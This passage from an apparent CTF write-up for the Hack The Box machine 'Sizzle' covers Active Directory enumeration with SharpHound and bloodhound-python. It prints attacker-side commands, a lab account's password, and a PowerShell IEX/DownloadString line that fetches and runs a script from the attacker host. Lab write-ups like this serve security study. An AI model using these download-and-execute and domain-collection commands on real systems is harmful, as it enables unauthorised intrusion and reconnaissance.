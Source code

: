 > **Attacker Machine**:

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
iwr -uri http://10.10.14.2/SharpHound.exe -OutFile ./SharpHound.exe
.\SharpHound.exe -c all --ldapusername amanda --ldappassword A...2
# .Net Runtime is not compatible with SharpHound  :(
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_71.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_72.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_73.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_74.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_75.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_76.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can perform a remote collection of information from the **AD** with `bloodhound-python` which does work and I can load and process it with **BloodHound**, but I still had a question why the `SharpHound.ps1` collector did not work for me so I get an even older version and this time I succeed in generating the compressed file of the collected information that I can transfer to my machine, after starting an **SMB server** with `impacket-smbserver`.

> **Attacker Machine**:

```bash
bloodhound-python -u amanda -p Ashare1972 -ns 10.10.10.103 -d htb.local -c All --zip

# http://127.0.0.1:8080/ui/explore

python3 -m http.server 80
```

> **Victime Machine**:

```cmd
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All
```
